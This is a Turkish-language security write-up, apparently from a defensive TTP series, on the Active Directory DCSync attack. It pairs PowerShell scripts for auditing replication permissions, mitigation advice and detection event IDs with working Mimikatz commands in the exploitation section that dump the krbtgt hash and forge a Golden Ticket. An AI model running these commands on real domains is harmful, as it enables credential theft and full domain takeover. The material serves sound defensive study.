





# TTP 0x9 - DCSync

| Metric  | Value  |
|---------|--------|
| Severity                      | `Critical` |
| Ease of Identification        | `Medium` |
| Ease of Mitigation            | `Medium` |
| Ease of Detection             | `Hard` |
| Ease of Deception             | `Easy` |
| MITRE ATT&CK Tactic           | `Credential Access` |
| MITRE ATT&CK Technique        | `OS Credential Dumping` |
| MITRE ATT&CK Sub-Technique    | `DCSync` |
| MITRE ATT&CK ID               | `T1003.006` |
| APT Groups                    | `APT29`|
| Target                        | `Ntds.dit` |
| Tools                         | `Mimikatz` |
| Privilege Before Exploitation | `Privileged Domain account` or `Network sniffing` |
| Privilege After Exploitation  | `Privileged Domain account` or `Domain Admin account` |
| Version                       | 0.1 |
| Date                          | 19.07.2023 |

## Preliminary

Ntds.dit, domain içerisinde bulunan kullanıcılar, gruplar, bilgisayarlar ve diğer objelerin tutulduğu veritabanı dosyasıdır. Ayrıca bu veri tabanı dosyası içerisinde kullanıcı parolalarıda hashli bir şekilde tutulmaktadır.

Active Directory Replication, bir Domain Controller üzerinde gerçekleşen değişikliklerin aynı verileri depolayan diğer Domain Controllerlara Microsoft Directory Replication Service Remote (MS-DRSR) protokolü ile aktarılmaktadır. Bir kullanıcıya aşağıdaki izinler verilmişse bu kullanıcı rahatlıkla replikasyon yönteminden yararlanarak DCSync saldırısı gerçekleştirebilmektedir.

- Replicating Directory Changes 
- Replicating Directory Changes All
- Replicating Directory Changes ln Filtered Set 

## DCSync

Saldırganla ele geçirdikleri yetkili hesaplar ile sahte Domain Controller gibi davranarak Dizin Çoğaltma (DRS) yoluyla Active Directory üzerindeki kullanıcıların parola hashlerini almaya olanak tanıyan saldırı yöntemidir. Mimikatz DCSync modülü ile RPC ptorokülü tetiklenerek gerçekleştirilmektedir.

**Not:** DCSync saldırısı sırasında RPC istekleri aşağıdaki Wireshark trafiğinde görüntülenmektedir.



## Description

DCSync saldırısını gerçekleştirebilmek için Domain Admins, Administrators, Enterprise Admins gruplarına ekli olan kullanıcılar yada Dizin Değişikliklerini Çoğaltma izinlerine ("Replicating Directory Changes" ve "Replicating Directory Changes All") sahip kullanıcılar ele geçirilerek yapılabilmektedir. Bu saldırı genelde istismar sonrası kullanılanılan bir yöntemdir. DCSync saldırısı kullanılark Krbtgt kullanıcısının parola hash bilgisi alınarak Golden Ticket saldırısında kullanılabilmektedir. Oluşturulan bu bilet ile Domainde tam yetki sahibi olunabilmektedir.

## Impact

Saldırgan bu saldırı yöntemini kullanarak Kerberos Ticket Granting Ticket (TGT) biletini şifrelemekle ve Kerberos trafiğini yönetmekle görevli olan Krbtgt hesabının parola hash bilgisini ele geçirebilmektedir. Krbtgt parola hash bilgisi ile istediği bir kullanıcı için Golden Ticket oluşturarak sistemde tam yetki sahibi olabilir. 

## Identification

DCSync saldırısını gerçekleştirmek için Replicating Directory Changes ve Replicating Directory Changes All izinleri verilmiş olan hesapları **Active Directory Users and Computers (dsa.msc)** aracı üzerinde görüntülenebilmektedir. Bunun için uygulama üzerinden domain objesi detay sayfası (Properties) açılır. **Security** sekmesi altında **Advanced** kısmı açılır. Açılan sayfada **Permission** sekmesi içerisinde **Access** kısmında tanımlanmış "Replicating Directory Changes ve Replicating Directory Changes All" ACE (Acces Control Entry) girdilerini görebiliriz.



**Active Directory Users and Computers (dsa.msc)** aracı yanı sıra tüm ACE (Acces Control Entry) girdilerini aşağıdaki Powershell betiği ile bulunabilmektedir.

```powershell
# Domain Distinguished Name to be analyzed
$DomainDistinguishedName = "DC=forestall,DC=labs";

# Retrieving Access Control Entries
(Get-Acl -Path "AD:$DomainDistinguishedName").Access
```

**Active Directory Users and Computers (dsa.msc)** aracı yanı sıra Replicating Directory Changes ve Replicating Directory Changes All ACE (Acces Control Entry) girdilerini aşağıdaki Powershell betiği ile bulunabilmektedir.

```powershell
# Domain Distinguished Name to be analyzed
$DomainDistinguishedName = "DC=forestall,DC=labs";

# Object which has Access Control Entry on Domain
$IdentityReference = "forestall\*";

# Access Control Type of Access Control Entry (Allow or Deny)
$AccessControlType = [System.Security.AccessControl.AccessControlType]::Allow;

# Active Directory Rights of Access Control Entry
$ActiveDirectoryRights = [System.DirectoryServices.ActiveDirectoryRights]::ExtendedRight;

Write-Host "[!] Searching $ActiveDirectoryRights ACL set as $AccessControlType from $IdentityReference to $DomainDistinguishedName" -ForegroundColor Green;

# Retrieving Domain by Distinguished Name
Get-ADDomain -Identity $DomainDistinguishedName | 

# Extracting Distinguished Name
Select-Object -ExpandProperty DistinguishedName |

# Iterating selected Distinguished Names
ForEach-Object { 
    
    # Retrieving Access Control Entries
    (Get-Acl -Path "AD:$_").Access |

    # Filtering Access Control Entries based on filter above
    Where-Object { 
        $_.AccessControlType -eq $AccessControlType -and 
        $_.IdentityReference -eq $IdentityReference -and 
        $_.ActiveDirectoryRights -like "*$ActiveDirectoryRights*" -and
        $_.IsInherited -eq $false
    }
} |

# Exporting found Access Control Entries into CSV file
Export-Csv -Path "FS1066-$DomainDistinguishedName-$ActiveDirectoryRights-ACLs.csv" -NoTypeInformation;
```

## Exploitation

DCSync saldırısı Mimikatz lsadump::dcsync modülü ile sömürülebilmektedir. Saldırı senaryosu Dizin Değişikliklerini Çoğaltma izinlerine ("Replicating Directory Changes" ve "Replicating Directory Changes All") sahip bir kullanıcı ele geçirildikten sonra Mimikatz aracıyla aşağıdaki komut çalıştırılarak Krbtgt parola hash değeri alınabilmektedir.

**Not** Mimikatz biletleri LSASS'a erişim sağlayarak dışarı aktarmaktadır. Bu nedenle aşağıdaki komutlar yönetici yetkileri ile çalıştırılmalıdır.

**Not** Bu komut üzerinde /user parametresine kullanıcı isimleri yazılarak domain üzerindeki bütün kullanıcıların parola hash bigileri alınabilmektedir.

```powershell
.\Mimikatz.exe "lsadump::dcsync /user:krbtgt"
```



Krbtgt parola hash bilgisi ele geçirildikten sonra Mimikatz aracı ile Altın Bilet(TGT) oluştururken gerekli parametreler verilerek bileti oluşturabiliriz.

**Not:** Mimikatz aracına aşağıdaki parametreler verilerek çalıştırılmaktadır.

| Command | Description |
|---------|--------|
| `/kerberos::golden` | Saldırı parametresi |
| `/user` | Taklit edilecek kullanıcı |
| `/domain` | Domain adı (FQDN) |
| `/Endin` | Bilet süresi belirler |
| `/Startoffset` | Başlangıç ofset belirlenir (Geçmiş negatif gelecek pozitif şimdi ise 0 değeri verilerek ayarlanır) |
| `/renewmax ` | Max süre belirleme |
| `/aes256(krbtgt,aes128)` | Krbtgt parolası girilir |
| `/SID` | Domain sid değeri girilir |
| `/SIDS` | Genellikle SIDHistory ataklarında kullanılır grup sid değeri eklenir |
| `/id` | Kullanıcı kimliği (Administrator 500) |
| `/groups` | grup sid (512:Domain Admin, 513:Admin User, 519: Enterprise Admins, 544: Administartors)
| `/ptt` | Komut inject (Pass The Ticket) |

```powershell
# Altın Bilet oluşturma
Mimikatz.exe "privilege::debug" "kerberos::golden /endin:600 /startoffset:0 /renewmax:10080 /user:administrator /domain: /sid: /id: /group: /ptt" "exit"
```



Uzak sistemde powershell ile komut çalıştırma işlemi gerçekleştiriliyor.

```powershell
# DC üzerinde komut çalıştırma
Invoke-Command -ComputerName dc.windomain.local -ScriptBlock {ipconfig}
```


## Mitigation

1. Sunuculara ve servislere erişimler kısıtlanarak saldırganların sistem üzerinde ayrıcalıklar elde etmesi engellenebilir. Ayrıca yetki verilmiş kullanıcılar kontrol edilmeli ve gereksiz yetkilendirme yapılmamalıdır. Bu şekilde ntds.dit erişimi kısıtlanarak krbtgt parola özetlerine ulaşım zorlaştırılabilir. 

2. Domain Controllerlara yapılan Microsoft Directory Replication Service Remote (MS-DRSR) GetNCChanges istekleri kontrol edilerek Domain Controller haricindeki istekler engellenmelidir.

## Detection

DCSync saldırısının farklı fazlarda tespiti için aşağıdaki Event ID bilgileri ve Sigma kuralları incelenmeli ve kurum bünyesinde tespit teknolojileri üzerinde uygulanmalıdır.

| Event Id  | Title | Description |
|---------|--------|--------|
| 4662 | `An operation was performed on an object.` | Objelerin ACE (Acces Control Entry) girdileri üzerinde yapılan okumalar tespit edilebilmektedir. |
| 5136 | `A directory service object was modified.` | Objelerin ACE (Acces Control Entry) girdileri üzerinde yapılan yazma işlemleri tespit edilebilmektedir. |

| Rule Id  | Title | TTP | Stage | Source | Event Id |
|---------|--------|--------|--------|--------|--------|
| 0x1 | [ntSecurityDescriptor Attribute Enumeration](detection-rules/ntSecurityDescriptor%20Attribute%20Enumeration.yaml) | `Multiple` | `Enumeration` | Security | 4662 |
| 0x2 | [ntSecurityDescriptor Attribute Modification](detection-rules/ntSecurityDescriptor%20Attribute%20Modification.yaml) | `Multiple` | `Vulnerability`, `Persistence` | Security | 5136 |

## References

- https://blog.netwrix.com/2021/11/30/what-is-dcsync-an-introduction/
- https://www.netwrix.com/privilege_escalation_using_mimikatz_dcsync.html
- https://adsecurity.org/?p=1729
- https://attack.mitre.org/techniques/T1003/006/
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync
- https://www.linkedin.com/pulse/dcsync-detection-exploitation-debashis-pal/

## Authors

- Serdal Tarkan Altun